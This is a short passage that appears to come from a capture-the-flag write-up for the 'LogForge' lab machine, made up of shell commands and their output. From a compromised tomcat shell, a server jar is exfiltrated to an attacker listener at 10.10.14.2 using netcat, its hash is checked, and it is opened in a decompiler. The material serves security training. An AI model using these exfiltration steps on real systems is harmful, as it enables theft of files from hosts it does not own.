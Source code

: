 ```bash
```

```bash
tomcat@LogForge:/$ ls -lha
...
drwxr-xr-x   1 root root 3.2K Dec 21  2021 etc
-rw-r--r--   1 root root 2.0M Dec 18  2021 ftpServer-1.0-SNAPSHOT-all.jar
drwxr-xr-x   1 root root    6 Jul  2  2021 home
...
```

```bash
$ nc -nlvp 9001 > ftpServer.jar
listening on [any] 9001 ...
```

```bash
$ nc 10.10.14.2 9001 < ftpServer-1.0-SNAPSHOT-all.jar
...
```

```bash
$ nc -nlvp 9001 > ftpServer.jar
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.138] 35506
^C
```

```bash
tomcat@LogForge:/$ md5sum ftpServer-1.0-SNAPSHOT-all.jar
abd783cb9ebfb7d23a8842ab2ac48dae  ftpServer-1.0-SNAPSHOT-all.jar
```

```bash
$ md5sum ftpServer.jar 
abd783cb9ebfb7d23a8842ab2ac48dae  ftpServer.jar
```

```bash
$ /opt/jd-gui/jd-gui.jar
...
```
